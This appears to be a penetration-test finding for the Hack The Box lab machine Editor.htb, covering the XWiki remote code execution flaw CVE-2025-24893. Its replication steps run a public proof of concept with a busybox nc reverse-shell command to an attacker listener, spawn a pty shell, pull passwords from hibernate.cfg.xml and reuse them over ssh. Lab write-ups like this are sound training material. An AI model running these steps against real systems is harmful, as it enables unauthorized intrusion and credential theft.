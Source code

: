 

CVE-2025-24893 - Remote Code Execution

## Description

A vulnerability in Editor.htb allows unauthenticated remote code execution (RCE). An unauthenticated attacker can execute code on the server remotely, potentially gaining control of the affected application host.

## Impact

High — Successful exploitation can lead to full compromise of the application and access to sensitive data on the host. This violates the confidentiality, integrity, and availability (CIA) of affected systems and may allow attacker persistence, data exfiltration, or further lateral movement.

## Likelihood

High — Exploitation requires no authentication and can be performed remotely, increasing the probability of active exploitation.


## Remediation 
Upgrade XWiki to 15.10.11, 16.4.1, or any later release from the vendor. This is the official fix for CVE-2025-24893.

## Evidence 
### Replication steps 

 <img src="images/editor_version.png" class="editors" alt="editor">

 From the login page a version is clearly displayed. Research shows vulnerablity for that version https://nvd.nist.gov/vuln/detail/CVE-2025-24893. Google CVE-2025-24893 pOc and github is found. 

 1. Download CVE-2025-24893.py
 2. start listening nc -lvnp port
 3. execute `python3 CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc ip 9001 -e /bin/bashw`
 4. nc terminal will start rce 
 5. spawn shell - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
 6. enumerate files on webserver will discover user oliver 
 <img src="images/oliver_found.png" class="editors" alt="user found">









 7. Google files on server and find hibernate.cfg.xml which stores XWiki data 
 8. find and open hibernate.cfg.xml
 9. Will see passwords used to login
10. ssh as oliver with password and one will be successful  `ssh oliver@IP`













